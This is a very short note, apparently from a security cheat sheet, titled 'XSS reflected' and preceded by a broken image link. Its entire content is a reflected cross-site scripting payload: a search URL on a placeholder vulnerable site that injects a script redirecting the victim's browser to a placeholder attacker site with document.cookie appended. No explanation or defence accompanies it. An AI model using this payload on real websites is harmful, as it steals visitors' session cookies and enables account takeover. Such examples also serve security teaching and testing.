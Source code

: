 # XSS reflected

http://<vul_website>/search?query=<script>document.location='<monsite>'+document.cookie</script>
